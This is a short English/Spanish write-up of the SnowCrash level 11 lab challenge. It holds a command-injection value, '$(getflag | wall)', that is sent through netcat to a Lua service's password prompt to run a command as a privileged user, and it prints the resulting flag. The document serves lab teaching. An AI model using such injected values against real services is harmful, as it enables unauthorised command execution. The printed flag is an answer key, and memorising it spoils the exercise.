 # Flag 11

## Tools Used:

* Netcat (`nc`)
* Shell command injection via Lua CGI service

## Process:

1. Connect to the Lua-based challenge service on localhost port 5151:

   ```bash
   level11@SnowCrash:~$ nc localhost 5151
   ```
2. At the password prompt, inject the `getflag` command by leveraging shell expansion:

   ```
   Password: $(getflag | wall)
   ```
3. The service runs under the `flag11` user, so the injected command executes with elevated privileges and broadcasts the flag to all users:

   ```
   Broadcast Message from flag11@Snow
           (somewhere) at 23:44 ...

   Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

   Erf nope..
   ```
4. Note that the script continues to reject the password afterward, but you’ve already received the flag.

---

# Flag 11

## Herramientas Utilizadas:

* Netcat (`nc`)
* Inyección de comandos en el servicio Lua

## Proceso:

1. Conéctate al servicio Lua en `localhost` puerto `5151`:

   ```bash
   level11@SnowCrash:~$ nc localhost 5151
   ```
2. En el prompt de contraseña, inyecta el comando `getflag` usando expansión de shell:

   ```
   Password: $(getflag | wall)
   ```
3. Dado que el servicio corre como usuario `flag11`, el comando se ejecuta con privilegios elevados y transmite la flag:

   ```
   Broadcast Message from flag11@Snow
           (somewhere) at 23:44 ...

   Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

   Erf nope..
   ```
4. Aunque el script luego rechaza la contraseña, ya has obtenido la flag.

---

## Scripts Used:

None (injection a través de `nc` y shell)

## Flag:

```
fa6v5ateaw21peobuub8ipe6s
```

